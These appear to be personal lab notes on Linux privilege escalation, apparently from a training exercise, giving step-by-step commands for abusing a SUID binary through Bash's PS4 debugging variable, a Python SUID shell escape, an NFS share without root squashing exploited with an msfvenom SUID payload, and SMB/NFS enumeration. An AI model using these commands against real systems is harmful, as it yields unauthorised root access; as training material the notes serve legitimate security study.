 ###
https://www.hackingarticles.in/linux-privilege-escalation-automated-script/

### SUID / SGID Executables - Abusing Shell Features (#2)
Note: This will not work on Bash versions 4.4 and above.

When in debugging mode, Bash uses the environment variable PS4 to display an extra prompt for debugging statements.
Run the /usr/local/bin/suid-env2 executable with bash debugging enabled and the PS4 variable set to an embedded command which creates an SUID version of /bin/bash:

env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)' /usr/local/bin/suid-env2

Run the /tmp/rootbash executable with -p to gain a shell running with root privileges:

/tmp/rootbash -p

---------------------------------------------
python -c 'import os;os.execl("/bin/sh","sh","-p")'
------------------------------------------------
Files created via NFS inherit the remote user's ID. If the user is root, and root squashing is enabled, the ID will instead be set to the "nobody" user.
Check the NFS share configuration on the Debian VM:

cat /etc/exports

Note that the /tmp share has root squashing disabled.
On your Kali box, switch to your root user if you are not already running as root:
sudo su

Using Kali's root user, create a mount point on your Kali box and mount the /tmp share (update the IP accordingly):

mkdir /tmp/nfs
mount -o rw,vers=2 10.10.10.10:/tmp /tmp/nfs

Still using Kali's root user, generate a payload using msfvenom and save it to the mounted share (this payload simply calls /bin/bash):
msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/nfs/shell.elf

Still using Kali's root user, make the file executable and set the SUID permission:
chmod +xs /tmp/nfs/shell.elf

Back on the Debian VM, as the low privileged user account, execute the file to gain a root shell:
/tmp/shell.elf



SMB:
https://0xdf.gitlab.io/2018/12/02/pwk-notes-smb-enumeration-checklist-update1.html
echo exit | smbclient -L \\\\[ip]
nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.132.104
